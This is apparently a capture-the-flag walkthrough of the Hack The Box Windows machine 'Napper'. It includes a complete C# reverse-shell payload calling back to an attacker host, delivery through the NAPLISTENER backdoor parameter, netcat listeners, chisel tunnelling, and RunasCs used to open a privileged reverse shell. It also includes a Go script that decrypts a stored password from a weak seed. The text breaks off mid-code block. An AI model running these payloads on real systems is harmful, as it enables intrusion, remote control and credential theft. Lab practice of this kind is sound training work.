



# Napper


Machine: [https://app.hackthebox.com/machines/Napper](https://app.hackthebox.com/machines/Napper)

Created by: [133742](https://app.hackthebox.com/users/232246)

Difficulty: Hard

OS: Windows

## Machine Info

Napper is a hard difficulty Windows machine which hosts a static blog website that is backdoored with the NAPLISTENER malware, which can be exploited to gain a foothold on the machine. Privilege escalation involves reversing a Golang binary and decrypting the password for a privileged user by utilizing the seed value and password hash stored in an Elasticsearch database. Being a member of the `administrators` group, the user can obtain a system token and escalate to the `Administrator` user.

## Enumeration

### Nmap

```shell
labadmin@labmachine:~/napper$ time nmap -p- --min-rate 10000 -oN napper-all-ports-nmap.log 10.10.11.240
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-16 04:41 PDT
Nmap scan report for napper.htb (10.10.11.240)
Host is up (0.20s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 34.64 seconds

real    0m34.658s
user    0m6.364s
sys     0m28.261s

labadmin@labmachine:~/napper$ time nmap -p 80,443 -sC -sV -oN napper-all-ports-nmap.log 10.10.11.240.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-16 04:42 PDT
Nmap scan report for napper.htb (10.10.11.240)
Host is up (0.21s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to https://app.napper.htb
443/tcp open  ssl/http Microsoft IIS httpd 10.0
|_http-title: Research Blog | Home
| ssl-cert: Subject: commonName=app.napper.htb/organizationName=MLopsHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:app.napper.htb
| Not valid before: 2023-06-07T14:58:55
|_Not valid after:  2033-06-04T14:58:55
|_http-generator: Hugo 0.112.3
| tls-alpn:
|_  http/1.1
|_ssl-date: 2024-05-16T11:43:06+00:00; +2s from scanner time.
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.20 seconds

real    0m24.234s
user    0m0.865s
sys     0m0.151s
```

Nmap reveals 2 open ports:

- 80/tcp  open  http     Microsoft IIS httpd 10.0
- 443/tcp open  ssl/http Microsoft IIS httpd 10.0

We also see that port 80 redirect to `https://app.napper.htb` so we add that to `/etc/hosts`.

```shell
<machine IP>  napper.htb  app.napper.htb
```

### HTTPS port 443.

Navigating `https://app.napper.htb` takes us to a research blog.


Investigating and reading trough the web pages we find example user and password that we note down.

`Enabling Basic Authentication on IIS Using PowerShell: A Step-by-Step Guide` - `https://app.napper.htb/posts/setup-basic-auth-powershell/`

In step 6, add a user account.

```shell
New-LocalUser -Name "example" -Password (ConvertTo-SecureString -String "ExamplePassword" -AsPlainText -Force)
```


And at bottom of page we see they use `hugo`, [https://gohugo.io/](https://gohugo.io/)


## go buster subdomain

We do not come further on the web page so we do a scan for subdomains.

```shell
labadmin@labmachine:~/napper$ gobuster vhost -k -u https://napper.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50 --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             https://napper.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: internal.napper.htb Status: 401 [Size: 1293]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

The scan finds subdomain `internal` and we add that to `/etc/hosts` too.

```shell
<machine IP>  napper.htb  app.napper.htb  internal.napper.htb
```

HTTPS subdomain internal

Next we navigate to `https://internal.napper.htb`.

We are prompted to login.


Since it is an internal subdomain, let us try the hard coded example credentials from above.

It worked and we entered the page with internal research notes.


Reading trough the internal research notes at `https://internal.napper.htb/posts/first-re-research/`.

From the notes.

```text
What we know so far:

So it is a backdoor:

[...] HTTP listener written in C#, which we refer to as NAPLISTENER. Consistent with SIESTAGRAPH and other malware families developed or used by this threat, NAPLISTENER appears designed to evade network-based forms of detection.  [...]

In the sanbox I can’t find the URL.

This means that any web request to /ews/MsExgHealthCheckd/ that contains a base64-encoded .NET assembly in the sdafwe3rwe23 parameter will be loaded and executed in memory. It's worth noting that the binary runs in a separate process and it is not associated with the running IIS server directly.
```

And in the log they mention that they have the backdoor running in a sandbox.

```text
Log

    2023-04-24: Did some more reading up. We need to look for some URL and a special parameter
    2023-04-23: Starting the RE process. Not sure on how to approach.
    2023-04-22: Nothing seems to be showing up in the sandbox, i just startes and stops again. Will be testing local
    2023-04-22: Got the copy of the backdoor, running in sandbox
```

And they list these references.

[https://www.elastic.co/security-labs/naplistener-more-bad-dreams-from-the-developers-of-siestagraph](https://www.elastic.co/security-labs/naplistener-more-bad-dreams-from-the-developers-of-siestagraph)
[https://malpedia.caad.fkie.fraunhofer.de/details/win.naplistener](https://malpedia.caad.fkie.fraunhofer.de/details/win.naplistener)
[https://www.darkreading.com/threat-intelligence/custom-naplistener-malware-network-based-detection-sleep](https://www.darkreading.com/threat-intelligence/custom-naplistener-malware-network-based-detection-sleep)

## Foothold

Going through the references we find a PoC (Proof of Concept) in the first link. By following the guide it shall give us access to the backdoor.

As first step we curl a non-excising page.

```shell
labadmin@labmachine:~/napper$ curl -k -I https://napper.htb/test
HTTP/2 404
content-length: 1245
content-type: text/html
server: Microsoft-IIS/10.0
date: Thu, 16 May 2024 12:22:00 GMT
```

Requesting a non-excising URL and the IIS web server returns a `404` response with a Server header containing `Microsoft-IIS/10.0`

Next we send a get request to the listener URL.

```shell
labadmin@labmachine:~/napper$ curl -k -I https://napper.htb/ews/MsExgHealthCheckd
HTTP/2 404
content-length: 0
content-type: text/html; charset=utf-8
server: Microsoft-IIS/10.0 Microsoft-HTTPAPI/2.0
x-powered-by: ASP.NET
date: Thu, 16 May 2024 12:24:25 GMT
```

The 404 error when requesting the listener URI adds `Content-Type: text/html; charset=utf-8` as an extra header. When NAPLISTENER is installed, the string `Microsoft-HTTPAPI/2.0` is appended to the Server header as well.

The backdoor seems to be present.

```shell
labadmin@labmachine:~/napper$ curl -k -i -d 'sdafwe3rwe23=exploit' https://napper.htb/ews/MsExgHealthCheckd/
HTTP/2 200
content-length: 0
content-type: text/html; charset=utf-8
server: Microsoft-IIS/10.0 Microsoft-HTTPAPI/2.0
x-powered-by: ASP.NET
date: Tue, 30 Apr 2024 08:11:14 GMT
```

Now we need a payload and we use this page to generate a C# payload for reverse shell.

[https://www.revshells.com/](https://www.revshells.com/)



In this blog [https://www.elastic.co/security-labs/naplistener-more-bad-dreams-from-the-developers-of-siestagraph](https://www.elastic.co/security-labs/ it is mentioned that NAPLISTENER executes the .NET assembly code using the `Run` method.

```text
 It creates an HttpResponse object and an HttpContext object, using these two objects as parameters. If the submitted Form field contains sdafwe3rwe23 , it will try to create an assembly object and execute it using the Run method.
```

Hence we must modify the C# payload to include `Run` method containing the revere shell code. And make sure namespace is same as filename.

```C#
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace payload
{
	public class Run
	{
		static StreamWriter streamWriter;

		public Run()
		{
			using(TcpClient client = new TcpClient("10.10.14.25", 8000))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}
        public static void Main(string[] args)
		{
            new Run();
        }
		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

Write it to file and we compile to an executable.

```shell
labadmin@labmachine:~/napper$ mcs -out:payload.exe payload.cs
payload.cs(67,34): warning CS0168: The variable `err' is declared but never used
Compilation succeeded - 1 warning(s)
```

As we know that NAPLISTENER will base64 decode the payload we first have to base64 encode the executable file. And we store it in a environment variable for later easy use.

```shell
labadmin@labmachine:~/napper$ payload=$(base64 -w 0 ./payload.exe)

labadmin@labmachine:~/napper$ echo $payload
TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAATAEDAAAAAAAAAAAAAAAAAOAAAgELAQgAAAoAAAAGAAAAAAAAjigAAAAgAAAAQAAAAABAAAAgAAAAAgAABAAAAAAAAAAEAAAAAAAAAACAAAAAAg
...[OMITTED]...
```

Before we send this payload we start our local Netcat listener.

```shell
labadmin@labmachine:~/napper$ nc -lvnp 8000
Listening on 0.0.0.0 8000
```

When we send the payload, let's remember we need to URL encode it.

```shell
labadmin@labmachine:~/napper$ curl -k --data-urlencode "sdafwe3rwe23=$payload" https://napper.htb/ews/MsExgHealthCheckd/
```

And we got reverse shell as ruben.


```shell
labadmin@labmachine:~/napper$ nc -lvnp 8000
Listening on 0.0.0.0 8000
Connection received on 10.10.11.240 49374
Microsoft Windows [Version 10.0.19045.3636]
(c) Microsoft Corporation. All rights reserved.
whoami
C:\Windows\system32>whoami
napper\ruben
```

And we get user flag on the Desktop of Ruben.

```shell
type C:\Users\ruben\Desktop\user.txt
C:\Windows\system32>type C:\Users\ruben\Desktop\user.txt
...[OMITTED]...
```

##  Privilege Escalation

Walking through the filesystem we find the running website source code in `C:\temp\www`.

```shell
C:\Temp\www>
dir
C:\Temp\www>dir
 Volume in drive C has no label.
 Volume Serial Number is CB08-11BF
 Directory of C:\Temp\www
06/09/2023  12:18 AM    <DIR>          .
06/09/2023  12:18 AM    <DIR>          ..
06/09/2023  12:18 AM    <DIR>          app
06/09/2023  12:18 AM    <DIR>          internal
               0 File(s)              0 bytes
               4 Dir(s)   4,589,039,616 bytes free
```

Under content post we find `no-more-laps.md` that looks like a draft blog post.

```shell
type no-more-laps.md
c:\Temp\www\internal\content\posts>type no-more-laps.md
---
title: "**INTERNAL** Getting rid of LAPS"
description: Replacing LAPS with out own custom solution
date: 2023-07-01
draft: true
tags: [internal, sysadmin]
---
# Intro
We are getting rid of LAPS in favor of our own custom solution.
The password for the `backup` user will be stored in the local Elastic DB.
IT will deploy the decryption client to the admin desktops once it it ready.
We do expect the development to be ready soon. The Malware RE team will be the first test group.
```

Interestingly it mentions that they backup the password in the local Elastic DB.

Further investigation on the file system and we find an executable `a.exe` under `c:\Temp\www\internal\content\posts\internal-laps-alpha`

```shell
c:\Temp\www\internal\content\posts\internal-laps-alpha>dir
 Volume in drive C has no label.
 Volume Serial Number is CB08-11BF
 Directory of c:\Temp\www\internal\content\posts\internal-laps-alpha
06/09/2023  12:28 AM    <DIR>          .
06/09/2023  12:28 AM    <DIR>          ..
06/09/2023  12:28 AM                82 .env
06/09/2023  12:20 AM        12,697,088 a.exe
               2 File(s)     12,697,170 bytes
               2 Dir(s)   4,589,043,712 bytes free
```

And in `.env` we find user and password for Elasticsearch running on localhost port 9200. 

```shell
c:\Temp\www\internal\content\posts\internal-laps-alpha>type .env
ELASTICUSER=user
ELASTICPASS=DumpPassword\$Here
ELASTICURI=https://127.0.0.1:9200
```

### Elasticsearch

To connect to Elastic that runs on localhost we first need setup a tunnel. And we will do that using chisel.

First we need to upload chisel to the target machine and we will do that setting up a local SMB server to host the package. Chisel packages can be downloaded here [https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)

Starting the local SMB server.

```shell
labadmin@labmachine:~/napper$ impacket-smbserver share . -smb2support -username duser -password dpassword
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On the target machine, map the SMB server.

```shell
c:\ProgramData>net use \\10.10.14.25\share /u:duser dpassword
The command completed successfully.
```

Next we copy the package to the target machine.

```shell
c:\ProgramData>copy \\10.10.14.25\share\chisel_1.9.1_windows_amd64 chisel.exe
        1 file(s) copied.
```

Now we start the chisel server locally.

```shell
labadmin@labmachine:~/napper$ ./chisel_1.9.1_linux_amd64 server -p 8100 --reverse
2024/05/16 06:49:27 server: Reverse tunnelling enabled
2024/05/16 06:49:27 server: Fingerprint hSY4fSNjYnAlWUtOvtf5JOMR9ycohW+VYvcHsKQWE/0=
2024/05/16 06:49:27 server: Listening on http://0.0.0.0:8100
```

And then use the chisel client on target machine to connect to local chisel server.

```shell
c:\ProgramData>.\chisel.exe client 10.10.14.25:8100 R:9200:127.0.0.1:9200
```

And we got a connection to the local server.

```shell
labadmin@labmachine:~/napper$ ./chisel_1.9.1_linux_amd64 server -p 8100 --reverse
2024/05/16 06:49:27 server: Reverse tunnelling enabled
2024/05/16 06:49:27 server: Fingerprint hSY4fSNjYnAlWUtOvtf5JOMR9ycohW+VYvcHsKQWE/0=
2024/05/16 06:49:27 server: Listening on http://0.0.0.0:8100
2024/05/16 06:52:43 server: session#1: tun: proxy#R:9200=>9200: Listening
```

Now when we have connection and we start enumerate Elasticsearch service. This is a good reference [https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch](https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch).

The connection and authentication work fine.

```shell
labadmin@labmachine:~/napper$ curl -k https://127.0.0.1:9200 -u 'user:DumpPassword$Here'
{
  "name" : "NAPPER",
  "cluster_name" : "backupuser",
  "cluster_uuid" : "tWUZG4e8QpWIwT8HmKcBiw",
  "version" : {
    "number" : "8.8.0",
    "build_flavor" : "default",
    "build_type" : "zip",
    "build_hash" : "c01029875a091076ed42cdb3a41c10b1a9a5a20f",
    "build_date" : "2023-05-23T17:16:07.179039820Z",
    "build_snapshot" : false,
    "lucene_version" : "9.6.0",
    "minimum_wire_compatibility_version" : "7.17.0",
    "minimum_index_compatibility_version" : "7.0.0"
  },
  "tagline" : "You Know, for Search"
}
```

Then, let us try to retrieve all the indices stored in the Elasticsearch database.

```shell
labadmin@labmachine:~/napper$  curl -k https://127.0.0.1:9200/_cat/indices -u 'user:DumpPassword$Here'
yellow open seed       rN4XnMTYRIiLr4GqsI3CcA 1 1 1 0 3.3kb 3.3kb
yellow open user-00001 looODTOXRjiSHEqnMVx6hw 1 1 1 0 5.3kb 5.3kb
```

There are two indices in the Elasticsearch database, `seed` and `user-00001`.

```shell
labadmin@labmachine:~/napper$ curl -k https://127.0.0.1:9200/seed/_search -u 'user:DumpPassword$Here' | python3 -m json.tool
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   237  100   237    0     0    348      0 --:--:-- --:--:-- --:--:--   348
{
    "took": 1,
    "timed_out": false,
    "_shards": {
        "total": 1,
        "successful": 1,
        "skipped": 0,
        "failed": 0
    },
    "hits": {
        "total": {
            "value": 1,
            "relation": "eq"
        },
        "max_score": 1.0,
        "hits": [
            {
                "_index": "seed",
                "_id": "1",
                "_score": 1.0,
                "_source": {
                    "seed": 18597552
                }
            }
        ]
    }
}
```

```shell
labadmin@labmachine:~/napper$  curl -k https://127.0.0.1:9200/user-00001/_search -u 'user:DumpPassword$Here' | python3 -m json.tool
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   370  100   370    0     0    539      0 --:--:-- --:--:-- --:--:--   540
{
    "took": 2,
    "timed_out": false,
    "_shards": {
        "total": 1,
        "successful": 1,
        "skipped": 0,
        "failed": 0
    },
    "hits": {
        "total": {
            "value": 1,
            "relation": "eq"
        },
        "max_score": 1.0,
        "hits": [
            {
                "_index": "user-00001",
                "_id": "Yue1gY8BYEAt61wKya9C",
                "_score": 1.0,
                "_source": {
                    "blob": "ExGfIYFpStTbpZO00bf_etwULWF4B7ysd1raNmzzftGeFfA4ZnnDmVp0BkIawgmxFWDUIU4mrBY=",
                    "timestamp": "2024-05-16T07:02:05.4733144-07:00"
                }
            }
        ]
    }
}
```

The `seed` contains a value `18597552` and `user-00001` contains data that looks base64 encoded `ExGfIYFpStTbpZO00bf_etwULWF4B7ysd1raNmzzftGeFfA4ZnnDmVp0BkIawgmxFWDUIU4mrBY=`. No clear view what to do so we continue.

###  Reverse Engineering

We earlier found `a.exe` so we download that and take a look at it.

We use the samba server we setup earlier.

```shell
c:\Temp\www\internal\content\posts\internal-laps-alpha>copy a.exe \\10.10.14.25\share\
        1 file(s) copied.
```

Opening the file in cutter we see that the program is written in GO.


Following the disassemble code using the graphic view we see it reference to a package `github.com/joho/godotenv.Load`


Further down the flow we see variables `ELASTICURI`, `ELASTICUSER` and `ELASTICPASS` together with `Getenv`. This indicates the variables are read from the `.env`.


And it then use the address, username and password to connect to Elasticsearch.



Further down we see the code using `randStringList`, `genKey` and `encrypt`.


The `randStringList` function puts the alphabet in an array.


It continue with iterate over the array to randomly select values from the alphabet.


Inspecting the `genKey` function. We observer the code set a seed correspond to the seed index in Elasticsearch database. And then generate a random key. This means, with the known seed we can replicate the same key.



Examining the `encrypt` function, we can see that it uses the AES Cipher Feedback (CFB) algorithm to encrypt the data before encoding it in base64.


To summarize the binary create a random string, generate a key and use this to encrypt a string. And the output might be the output stored in `user-00001` index in Elesticsearch. 

Consider this and the knowledge from the draft post previous. The command 
net user backup is being used to alter the password for the backup user. Using the seed discovered in the Elasticsearch database, we can create an identical key and decrypt the payload.

This code comes from teh official writeup.

```go
package main

import (
    "crypto/aes"
    "crypto/cipher"
    "encoding/base64"
    "fmt"
    mrand "math/rand"
    "os"
    "strconv"
)

func genKey(seed_key string) []byte {
    seed, _ := strconv.Atoi(seed_key)
    mrand.Seed(int64(seed))
    key := make([]byte, 16)
    for i := 0; i < 16; i++ {
        key[i] = byte(mrand.Intn(255-1) + 1)
    }
    return key
}

func decrypt(key []byte, cryptoText string) string {
    ciphertext, _ := base64.URLEncoding.DecodeString(cryptoText)

    block, err := aes.NewCipher(key)
    if err != nil {
        panic(err)
    }

    if len(ciphertext) < aes.BlockSize {
        panic("ciphertext too short")
    }
    iv := ciphertext[:aes.BlockSize]
    ciphertext = ciphertext[aes.BlockSize:]
    stream := cipher.NewCFBDecrypter(block, iv)
    stream.XORKeyStream(ciphertext, ciphertext)
    return fmt.Sprintf("%s", ciphertext)
}

func main() {
    seed_key := genKey(os.Args[1])
    decrypted_pass := decrypt(seed_key, os.Args[2])
    fmt.Println("Decrypted pass: ", decrypted_pass)
}
```

The above script will generate a random key based on user provided seed. It then uses this key to decrypt the base64 encoded cipher text and output to the console.

Let's compile and try.

```shell
labadmin@labmachine:~/napper$ go build decrypt.go
```

We now decrypt the password of backup user by giving the seed and hash value as input.

To get the latest seed and hash.

```shell
labadmin@labmachine:~/napper$ curl -k https://127.0.0.1:9200/seed/_search -u 'user:DumpPassword$Here' | jq '.hits.hits[0]._source.seed'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   237  100   237    0     0    255      0 --:--:-- --:--:-- --:--:--   255
29133249

labadmin@labmachine:~/napper$ curl -k https://127.0.0.1:9200/user-00001/_search -u 'user:DumpPassword$Here' | jq '.hits.hits[0]._source.blob'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   369  100   369    0     0    542      0 --:--:-- --:--:-- --:--:--   542
"vUjneJGbzvH8S4R-3DlXJoayn6hNGS30kRp11UI7ebB8G_0HxRezpE_SGd7NprNVtZnHmpJJ3bY="
```

And finally we decrypt.

```shell
labadmin@labmachine:~/napper$ ./decrypt 29133249 vUjneJGbzvH8S4R-3DlXJoayn6hNGS30kRp11UI7ebB8G_0HxRezpE_SGd7NprNVtZnHmpJJ3bY=
Decrypted pass:  QUtHAysViOdodvLEqdpsgbNaczhHLyyLKDkxwVGK
```

Now, when we got the password for backup user. And we will now use RunasCs.exe to run commands as backup user.

RunasCS releases can be downloaded here. [https://github.com/antonioCoco/RunasCs/releases](https://github.com/antonioCoco/RunasCs/releases). And we will use our existing smbshare to upload the package.

```shell
c:\ProgramData>copy \\10.10.14.25\share\RunasCs.exe RunasCs.exe
        1 file(s) copied.
```

Before running the RunasCs we start a local netcat listener.

```shell
labadmin@labmachine:~/napper$ nc -lvnp 8200
Listening on 0.0.0.0 8200
```

Followed by executing RunasCs on the target machine.

```shell
.\RunasCS.exe backup hJsKzOWgvzDCuxfVMwZjhyifJjAQZVscGhYTayfC powershell -r 10.10.14.25:8200
```

If you get `[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect` rerun the the above procedure to get seed, ciphertext and run decrypt again.

```shell
c:\ProgramData>.\RunasCS.exe backup hJsKzOWgvzDCuxfVMwZjhyifJjAQZVscGhYTayfC powershell -r 10.10.14.25:8200
[*] Warning: The logon for user 'backup' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-456ec$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 2360 created in background.
```

And we got reverse shell as backup.

```shell
labadmin@labmachine:~/napper$ nc -lvnp 8200
Listening on 0.0.0.0 8200
Connection received on 10.10.11.240 49491
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Windows\system32> whoami
whoami
napper\backup
PS C:\Windows\system32>
```

We find out that backup is member of the administrator group.

```shell
PS C:\Windows\system32> net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
backup
The command completed successfully.

PS C:\Windows\system32> net user backup
net user backup
User name                    backup
Full Name                    backup
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/16/2024 8:37:05 AM
Password expires             Never
Password changeable          5/16/2024 8:37:05 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/16/2024 8:35:01 AM

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```

We move the administrator directory but we can't do that much.

```shell
PS C:\Windows\system32> cd "C:\users\administrator"
cd "C:\users\administrator"
PS C:\users\administrator> dir
dir
dir : Access to the path 'C:\users\administrator' is denied.
At line:1 char:1
+ dir
+ ~~~
    + CategoryInfo          : PermissionDenied: (C:\users\administrator:String) [Get-ChildItem], UnauthorizedAccessExc
   eption
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

PS C:\users\administrator>
```

And we see this shell doesn't have that many privileges.

```shell
PS C:\users\administrator> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
PS C:\users\administrator>
```

We know notice the message last time connecting with RunasCs.

```shell
